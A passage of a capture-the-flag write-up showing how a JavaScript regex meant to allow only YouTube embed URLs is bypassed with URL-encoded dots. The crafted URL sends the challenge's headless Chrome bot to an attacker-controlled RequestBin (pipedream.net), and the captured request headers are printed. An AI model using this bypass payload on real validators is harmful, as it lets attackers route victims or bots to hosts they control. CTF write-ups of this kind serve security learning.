 ```javascript
>>> E = /^https?:\/\/[^.]+\.youtube\.com\/embed\//i;
/^https?:\/\/[^.]+\.youtube\.com\/embed\//i

>>> 'https://www.youtube.com/embed/'.match(E)
Array [ "https://www.youtube.com/embed/" ]

>>> 'https://www.evil.com?www.youtube.com/embed/'.match(E)
null

>>> 'https://www%2Eevil%2Ecom?www.youtube.com/embed/'.match(E)
Array [ "https://www%2Eevil%2Ecom?www.youtube.com/embed/" ]

```

Let's try sending a RequestBin and see if Jeff visits it:

```
https://enswwrsynfpwo%2Ex%2Epipedream%2Enet?www.youtube.com/embed/
```

![](images/signull7.png)

As expected, we get a hit from a Headless Chrome setup:

```
host: enswwrsynfpwo.x.pipedream.net
x-amzn-trace-id: Root=1-6192b77d-6fd5156b49804c913fe03901
upgrade-insecure-requests: 1
user-agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/86.0.4240.111 Safari/537.36
accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
sec-fetch-site: cross-site
sec-fetch-mode: navigate
sec-fetch-dest: iframe
referer: https://signull.chal.intentsummit.org/
accept-encoding: gzip, deflate, br
accept-language: en-US
```
